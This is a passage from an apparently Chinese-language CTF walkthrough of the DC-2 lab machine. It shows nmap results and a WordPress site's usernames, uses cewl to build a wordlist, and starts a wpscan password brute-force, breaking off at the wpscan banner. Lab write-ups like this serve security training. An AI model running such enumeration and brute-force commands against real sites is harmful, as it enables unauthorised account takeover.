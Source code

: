     7744/tcp open  raqmon-pdu
    MAC Address: 00:0C:29:9B:07:95 (VMware)
    ```
    

## web渗透

1. 前面`nmap`扫描出是`wordpress`的CMS,并且得出几个用户名`admin` `tom` `jerry` ,和一些让人感兴趣的路径
    
    进入主页存在`flag`选项卡得到`flag1`
    
    ![image.png](image%2024.png)
    
    ```sql
    # flag1
    Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.
    
    More passwords is always better, but sometimes you just can’t win them all.
    
    Log in as one to see the next flag.
    
    If you can’t find it, log in as another
    ```
    
    提示到呢`cewl` ，先用`cewl` 对`dc-2` 生成字典，备用
    
    ```sql
    cewl http://dc-2 > dc2.txt
    ```
    
2. F12可以找到wordpress版本是`WordPress 4.7.10` ，得知当前用户 `admin` `tom` `jerry` 将他们存为`dc2u.txt` ,通过`flag1`给的提示，使用上面生成`dc2.txt` 来做用户密码爆破
    
    ```sql
    wpscan --url http://dc-2 -U dc2u.txt -P dc2.txt 
    //
    _______________________________________________________________
             __          _______   _____
             \ \        / /  __ \ / ____|
              \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
               \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                \  /\  /  | |     ____) | (__| (_| | | | |
                 \/  \/   |_|    |_____/ \___|\__,_|_| |_|
    